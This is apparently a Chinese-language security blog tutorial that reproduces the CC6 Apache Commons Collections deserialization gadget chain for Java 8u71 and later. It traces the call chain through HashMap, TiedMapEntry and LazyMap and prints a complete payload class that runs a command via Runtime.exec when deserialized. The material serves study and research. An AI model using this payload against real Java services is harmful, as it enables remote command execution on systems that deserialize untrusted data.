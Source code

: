 #  关于打高版本java,cc6复现  
 实战安全研究   2025-07-14 02:01  
  
关于打高版本java,cc6复现  
  
  
从上一篇的cc1中我们发现他不能作用在jdk_8u71以上的版本，因此;为了解决这个问题，引入了cc6  
  
  
之所以不能用cc1打高版本，是由于在Java 8u71以后， sun.reflect.annotation.AnnotationInvocationHandler#readObject 的逻辑变化了;  
  
  
所以这条链子走不了了，因此为了解决这一问题，**就需要看看上下文其他地方的调用LazyMap的get的地方**  
  
老规矩先找可以触发transform方法的函数;  
  
这里依然用的是LazyMap的get方法触发  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKLjtFLA0GcopwyF59c7skibfBpbNgNttHic74PJys7O4gj8FSQulK7mmA/640?wx_fmt=png&from=appmsg "")  
  
  
在高版本中CC1中用到的AnnotationInvocationHandler类的Invoke无法再触发，我们找到了org.apache.commons.collections.keyvalue.TiedMapEntry类;  
  
可以看到这里使用TiedMapEntry的getvalue调用了get;  
  
只需要传进去的map等于我们的Lazymap类的实例化对象即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKnGcdBaHvXU7dA4GGMkxCLIKKTNd3cibAPGbPGcuRRHNKuaDFy0ibtMnw/640?wx_fmt=png&from=appmsg "")  
  
  
接下来继续找哪里调用了getvalue();  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblK6ribNareRGE4z2KvndITsNhfrxHDVqhAj3XicFoaHD8VxwTJgZMKKR5w/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到有3个地方调用了getvalue，equals(),hashCode(),toString()  
  
在URLDNS链子中我们知道在hashmap反序列化过程中,会触发`readObject()`方法进行重建键值对。这一过程会**自动触发键对象的`hashCode()`计算**  
  
先说toString()；这个很难找到在 readobject 中的隐式调用;  
  
而equals()在hash冲突(当两个不同键的**hashCode()**结果相同时，`HashMap`会调用`equals()`验证键是否真正相等)或  
  
集合操作时(如`contains()`、`remove()`等方法的调用（但反序列化过程很少涉及这些操作）)才会隐式触发  
  
也就是说equals()触发场景(可能需要进行需要精确构造哈希碰撞的操作)利用难度较大;  
  
而hashCode()我们知道在hashmap中hash函数进行调用  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblK2WUib1rgzibrc6d5Q1Q7WEeLfZY7jZp71jpOFTsVFQZ3DMaUDY9ib95rg/640?wx_fmt=png&from=appmsg "")  
  
在readobject中调用了hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblK9lyGmJP7KPiafHP6GJTcibkhowjwJ6mw7FbGqYhalqSCIDZsA6NXSatg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKQ8oXLLXqMnvBpLtGUJL7sPmXOLttWyU11ibOUsh3M37kX4nkUf4nHZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
可以看到其中hash对传进去的key进行处理；我们只需要让TiedMapEntry类的实例对象作为key传进去即可  
  
  
因此gadget链就是  
  
```
1

```  
```

graph TD
    A[HashMap.readObject] --> B[HashMap.hash]
       B --> C[TiedMapEntry.hashCode]
           C --> D[TiedMapEntry.getValue]
               D --> E[LazyMap.get]
                   E --> F[ChainedTransformer.transform]
                       F --> G[InvokerTransformer执行命令]

```  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKxiark3IaAGwfYia1YMB1FXWf32QibJ8JkC0iaNUyVvib8cV1BgffvGC9mSA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
以下是payload  
  
```
1

```  
```
public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)
       };
        Transformer[] Transformers = new Transformer[]{
              //  new ConstantTransformer(1), // 反射调用Runtime.getRuntime()
                new ConstantTransformer(Runtime.class), // 反射调用Runtime.class
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}), // 反射调用exec函数
                new ConstantTransformer(1)
        };
        Transformer transformerchains = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerchains);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.clear();//清空map
        Field field=ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(transformerchains,Transformers);
        //序列化
        byte[] exp=SerializationUtils.serialize((Serializable) expMap);
        //反序列化
        SerializationUtils.deserialize(exp);
    }
```  
  
  
  
区分下这个clear();和上一篇的clear()的区别在于;这里的clear()是为了确保反序列化的正常执行，上一篇cc1的clear()是为了触发代理类的invoke,才进行显示调用测试；实际上调用不在"黑名单中的任意函数都可以"，比如说我显示调用entrySet()  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKpn0cBZbd0vNTv1EjmAxE2ib419rJoRLud63ibfdC4cNwWTxLokegxMLg/640?wx_fmt=png&from=appmsg "")  
  
  
下面我解释下在cc6中为什么要清空map；  
  
进行调试后发现，在LazyMap的get中;这里没有进入if判断而是直接跳过然后进入else进行返回;原因显而易见;是key已经存在值  
  
keykey了；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKyZVN7UPGYudxHaMpzmTsmHYWibUejgia2Ks2lUYOV1uQ4DFa8VTjHwIQ/640?wx_fmt=png&from=appmsg "")  
  
  
从上下文可以知道这个keykey是在TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");赋值；  
  
但其构造函数中并没有对outmap进行操作  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKpek2icvgVaZWY7vLCfzmBcXfDvH1QmcEsrrmahObo5dPYXKoia7NUkzg/640?wx_fmt=png&from=appmsg "")  
  
  
了解过DNSURL这条链子，就会知道这其实是由于这个语句  
  
expMap.put(tme, "valuevalue");  
  
在put函数中也会调用hashcode  
  
也就是说  
  
  
expMap.put(tme, "valuevalue") 会隐式触发 TiedMapEntry.hashCode()` → `LazyMap.get("keykey")。由于之前传入的是fakeTransformers，此时链子不会触发;而在此次之后， outerMap（即LazyMap）中会存入键 "keykey";导致后续的"真实链子"不会触发;  
  
  
测试写入真实链子，可以看到在put(实际场景中是序列化时触发)时就触发了  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKq0hKmicSTIKIQOb5GPS4m4xtwIUuHicUicnib3cbld55IZspFHiaGzTr8hw/640?wx_fmt=png&from=appmsg "")  
  
因此;这时候就需要clear()清空outmap中的keykey;  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKGT43WF744uM32TPPNMnTQibB5KqGagZLJo2DY514mh5oiaeOibl5H7u8A/640?wx_fmt=png&from=appmsg "")  
  
最后  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKYaVmKUj07RiarV62NC0Om3SbeNtA9FkiaIia7JzA8icPSfib3ZgXB3ibEDDw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
这条链子没有cc1，lazymap版本动态代理那部分的"难以理解"，比较经典；用的也比较舒服的一条链子;  
  
  
再次总结下流程  
  
  
通过在LazyMap的get可以执行ChainedTransformer.transform，我们找到了TiedMapEntry.getValue去触发get，在TiedMapEntry代码中我们看到hashcode调用了getvalue，所以，我们很容易想到打URLDNS链用的hashmap中的hash触发;最后通过hashmap的readobjecct中的hash触发hashcode;  
  
  
正向流程就是在反序列化过程中 Hashmap的readobject触发hash函数，由于hash参数是TiedMapEntry对象，因此调用了TiedMapEntry的hashcode函数，在hashcode中又调用了getvalue函数，在getvalue中调用了传进来的map参数的get函数，由于我们传进去的是LazyMap对象，导致调用了LazyMap对象的get函数，触发了get的transform函数，而这个transform可控，导致我们注入我们的恶意的反射调用链去执行任意命令;  
  
  
再次贴下gadget  
  
```

graph TD
    A[HashMap.readObject] --> B[HashMap.hash]
       B --> C[TiedMapEntry.hashCode]
           C --> D[TiedMapEntry.getValue]
               D --> E[LazyMap.get]
                   E --> F[ChainedTransformer.transform]
                       F --> G[InvokerTransformer执行命令]

```  
  
  
  
  
；  
  
参考文章:  
  
自己的博客:https://www.cnblogs.com/rcpw0tor-/p/18901536  
  
p牛的博客知识星球->代码审计->java系列文章  
  
https://mp.weixin.qq.com/s/AjCngDFNE2wT9JvajMMxTA  
  
  

